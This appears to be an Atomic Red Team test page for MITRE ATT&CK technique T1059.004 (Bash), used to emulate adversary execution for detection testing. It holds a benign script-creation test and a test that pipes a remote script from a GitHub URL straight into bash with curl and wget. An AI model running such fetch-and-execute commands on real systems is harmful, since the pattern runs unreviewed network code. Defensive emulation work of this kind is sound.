 # T1059.004 - Bash
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1059.004)
<blockquote>Adversaries may abuse Bash commands and scripts for execution. Bash, the primary macOS (through Mojave) and Linux shell, can control every aspect of a system, with certain commands requiring elevated privileges. 

Bash scripts (.sh) provide the shell with a list of sequential commands to run, as well as normal scripting operations such as conditionals and loops. Common uses of Bash scripts include long or repetitive tasks, or the need to run the same set of commands on multiple systems.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Create and Execute Bash Shell Script](#atomic-test-1---create-and-execute-bash-shell-script)

- [Atomic Test #2 - Command-Line Interface](#atomic-test-2---command-line-interface)


<br/>

## Atomic Test #1 - Create and Execute Bash Shell Script
Creates and executes a simple bash script.

**Supported Platforms:** macOS, Linux




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| script_path | Script path | path | /tmp/art.sh|


#### Attack Commands: Run with `sh`! 


```sh
sh -c "echo 'echo Hello from the Atomic Red Team' > #{script_path}"
sh -c "echo 'ping -c 4 8.8.8.8' >> #{script_path}"
chmod +x #{script_path}
sh #{script_path}
```

#### Cleanup Commands:
```sh
rm #{script_path}
```





<br/>
<br/>

## Atomic Test #2 - Command-Line Interface
Using Curl to download and pipe a payload to Bash. NOTE: Curl-ing to Bash is generally a bad idea if you don't control the server.

Upon successful execution, sh will download via curl and wget the specified payload (echo-art-fish.sh) and set a marker file in `/tmp/art-fish.txt`.

**Supported Platforms:** macOS, Linux





#### Attack Commands: Run with `sh`! 


```sh
curl -sS https://raw.githubusercontent.com/theclintox/atomic-red-team/master/atomics/T1059.004/echo-art-fish.sh | bash
wget --quiet -O - https://raw.githubusercontent.com/theclintox/atomic-red-team/master/atomics/T1059.004/echo-art-fish.sh | bash
```

#### Cleanup Commands:
```sh
rm /tmp/art-fish.txt
```





<br/>
